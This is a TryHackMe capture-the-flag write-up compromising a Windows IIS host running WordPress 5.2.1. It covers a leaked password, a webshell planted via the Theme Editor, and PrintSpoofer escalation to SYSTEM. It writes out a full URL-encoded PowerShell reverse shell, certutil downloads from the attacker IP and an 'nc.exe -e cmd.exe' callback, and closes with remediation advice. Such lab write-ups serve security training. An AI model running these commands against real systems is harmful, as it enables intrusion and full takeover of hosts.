# Retro — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Hard | **Target IP:** 10.66.175.176 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary

**Retro** is a TryHackMe machine running an outdated WordPress 5.2.1 blog on top of IIS, where a password left behind in a blog comment by the user wade grants access to the WordPress admin panel and the Theme Editor. A PHP webshell planted in the theme's 404 template leads to an interactive PowerShell reverse shell running as nt authority\iusr, which carries the SeImpersonatePrivilege token privilege. PrintSpoofer abuses that privilege to spawn a SYSTEM-level shell.

**Attack chain:** Nmap & WordPress Enumeration → Credential Leak in a Blog Comment → RCE via WordPress Theme Editor → SeImpersonatePrivilege Abuse via PrintSpoofer → SYSTEM

## 1. Reconnaissance

A full TCP port scan revealed an IIS web server and RDP exposed on the host.

```
nmap -p- -Pn -sS -sV -sC -vvv -oN scan.txt 10.66.175.176

PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-13T13:07:04
| Not valid after:  2027-05-15T13:07:04
| MD5:     21ca c926 bf8e a1a2 4907 8783 c4dc 2fc9
| SHA-1:   2485 89ed a666 9606 081b 8706 dcb9 c212 8dbf e882
| SHA-256: ed37 1a20 f820 2d2b e1b7 2ac5 ded2 b156 db61 b6ae 599f 50ee 7aa8 c25b dbc7 8247
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQFuQidrmvAJtJ2uOmhzgvVjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yNjExMTMxMzA3MDRaFw0yNzA1MTUxMzA3
| MDRaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAmGP3SokO7P2xWsd+zFKJrR1b11OvaXGImg6VZqYD4fNXBb5U7Dyo
| F2VlS6EJ4op5iMUIHEzGbC9YhoLXGSZ3VM87xYLR62PIuyW6ixG8XPfeEUbsUHQC
| zsscVYO84GAe+DtecUm3Ww+Mk1N3xGFp7VlxrU94Y3E42vs9fbCGuImkVmLBYAJA
| xu97dQy6/1acF1AQdcAFYpIOc5Ue6gs2PMzLYBWnEIJ5ZmZGFL7UfKfTJViAlRWz
| PWLpwI7rA3FqmN/0iNiOk5rFuBbP4CMp0szPvJatrD8sUCtr4VEO12kXnCsay6mB
| O2mq6uO5nxu9zPiOPkrMrWazo/i3CdfYDwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBACuk1uWKM+Kg
| lhblGdK40e04Gw7RcvQ4xH58IK1iHxj62yduSxLKmd0n4hy+6qd3Y2TwgiTRsQtZ
| iga+E55TTE7ZsJabrOsLMG0zAS/pMpnd3hZlSbduCAAKYtudDOPiJdTOhB6QIJKT
| aOxQEjs8PQr3NZ3t9spBTpOhJObE3oPY+Ueyfi/YRia4k4snvCWG53KaVU1ICkAq
| w7lhB5oCxjsF5u0+I2zGSe2gvRLJTy1p7/FUsxBQSJSgcXLhdEz8KDw8iLks9OQz
| IPFleRM7Q7HkAEkA6eF2+S9tZoy1usObXZ3kGA+tcpznWTgZuXwWq0nwSSbsrrut
| 9bNYYc/Njm4=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-11-14T15:19:21+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2026-11-14T15:19:17+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: -1s
```

The `rdp-ntlm-info` script already revealed the hostname `RETROWEB`. Browsing to the root of the site only returned the default IIS welcome page.



## 2. WordPress Enumeration

A directory brute force with `gobuster` uncovered a hidden `/retro/` path, which redirected to a WordPress blog themed "Retro Fanatics".


`wpscan` fingerprinted the CMS, the active theme, and a valid username on the blog.

```
wpscan --url http://10.66.175.176/retro/ -e u

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.66.175.176/retro/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.66.175.176/retro/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.66.175.176/retro/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.66.175.176/retro/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://10.66.175.176/retro/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[+] WordPress theme in use: 90s-retro
 | Location: http://10.66.175.176/retro/wp-content/themes/90s-retro/
 | Latest Version: 1.4.10 (up to date)
 | Last Updated: 2019-04-15 4:00am GMT (7 years ago, per WordPress.org)
 | Active Installs: 300 (per WordPress.org)
 | Readme: http://10.66.175.176/retro/wp-content/themes/90s-retro/readme.txt
 | Style URL: http://10.66.175.176/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1
 | Style Name: 90s Retro
 | Style URI: https://organicthemes.com/retro-theme/
 | Description: Have you ever wished your WordPress blog looked like an old Geocities site from the 90s!? Probably n...
 | Author: Organic Themes
 | Author URI: https://organicthemes.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4.10 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.66.175.176/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1, Match: 'Version: 1.4.10'

[+] Enumerating Users (via Passive and Aggressive Methods)

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)

[+] Wade
 | Found By: Rss Generator (Passive Detection)
[i] 2 user(s) Identified.
```

WordPress 5.2.1, the `90s-retro` theme, and the username `wade` were now confirmed.

## 3. Credential Leak in a Blog Comment

Browsing the blog's posts, the "Ready Player One" article had a comment left by `wade` reminding himself of a password he kept mistyping.


The comment left behind the plaintext password `parzival`.

## 4. RCE via WordPress Theme Editor

The leaked credentials `wade:parzival` were used to log into the WordPress admin panel and reach the Theme Editor.





The theme's `404.php` template was overwritten with a minimal PHP command-execution webshell.



Requesting the file with a `cmd` parameter confirmed code execution, running as the IIS application pool identity.



To get an interactive session, a PowerShell TCP reverse shell built around `TCPClient`/`StreamWriter` was URL-encoded and passed through the same `cmd` parameter.

```
powershell%20-nop%20-W%20hidden%20-noni%20-ep%20bypass%20-c%20%22%24TCPClient%20%3D%20New-Object%20Net.Sockets.TCPClient%28%27192.168.131.193%27%2C%204444%29%3B%24NetworkStream%20%3D%20%24TCPClient.GetStream%28%29%3B%24StreamWriter%20%3D%20New-Object%20IO.StreamWriter%28%24NetworkStream%29%3Bfunction%20WriteToStream%20%28%24String%29%20%7B%5Bbyte%5B%5D%5D%24script%3ABuffer%20%3D%200..%24TCPClient.ReceiveBufferSize%20%7C%20%25%20%7B0%7D%3B%24StreamWriter.Write%28%24String%20%2B%20%27SHELL%3E%20%27%29%3B%24StreamWriter.Flush%28%29%7DWriteToStream%20%27%27%3Bwhile%28%28%24BytesRead%20%3D%20%24NetworkStream.Read%28%24Buffer%2C%200%2C%20%24Buffer.Length%29%29%20-gt%200%29%20%7B%24Command%20%3D%20%28%5Btext.encoding%5D%3A%3AUTF8%29.GetString%28%24Buffer%2C%200%2C%20%24BytesRead%20-%201%29%3B%24Output%20%3D%20try%20%7BInvoke-Expression%20%24Command%202%3E%261%20%7C%20Out-String%7D%20catch%20%7B%24_%20%7C%20Out-String%7DWriteToStream%20%28%24Output%29%7D%24StreamWriter.Close%28%29%22
```



With a listener up on the attacking machine, the request caught the connection, dropping into an interactive shell.



## 5. Privilege Escalation to SYSTEM via PrintSpoofer

A `whoami /priv` in this shell confirmed `SeImpersonatePrivilege`, the same token privilege observed on the `nt authority\iusr` identity that was already running the webshell.

```
SHELL> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

A `C:\Temp` directory was created on the target as a working folder to stage the tools needed for the privilege-escalation step.

```
SHELL> mkdir Temp
```

`PrintSpoofer`, which abuses `SeImpersonatePrivilege` to coerce the `Print Spooler` service into authenticating as SYSTEM, was downloaded on the attacking machine.

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
```

`PrintSpoofer32.exe` and a Windows build of `nc.exe` were then served from a Python HTTP server on the attacking machine.

```
python -m http.server
```

On the target shell, `PrintSpoofer32.exe` was pulled into `C:\Temp` with `certutil`'s URL cache.

```
SHELL> powershell -c "certutil -urlcache -split -f http://192.168.131.193:8000/PrintSpoofer32.exe C:\Temp\PrintSpoofer32.exe"
CertUtil: -URLCache command completed successfully.
```

The same was done for `nc.exe`.

```
SHELL> powershell -c "certutil -urlcache -split -f http://192.168.131.193:8000/nc.exe C:\Temp\nc.exe"
CertUtil: -URLCache command completed successfully.
```

Running `PrintSpoofer32.exe` to spawn `nc.exe` with an impersonated SYSTEM token caught a new listener.

```
C:\Temp\PrintSpoofer32.exe -c "C:\Temp\nc.exe -e cmd.exe 192.168.131.193 5555"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```



A quick `whoami` confirmed the new shell was running as SYSTEM.



With a SYSTEM shell, the user flag was read from `Wade`'s desktop, and the root flag from the `Administrator`'s.





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Outdated WordPress 5.2.1 with the Theme Editor enabled, letting an authenticated user write arbitrary PHP to disk | Update WordPress and PHP to supported versions; disable the Theme/Plugin Editor (`DISALLOW_FILE_EDIT`) |
| A password left behind in a public blog comment, exposing a valid credential | Remove sensitive information from public-facing content; rotate any credential that was ever posted publicly |
| The IIS application pool identity retained `SeImpersonatePrivilege`, enabling token-impersonation attacks like `PrintSpoofer` | Run service accounts with the minimum required privileges, or apply mitigations against Potato-family exploits (e.g., restrict `CreateProcessWithTokenW`) |
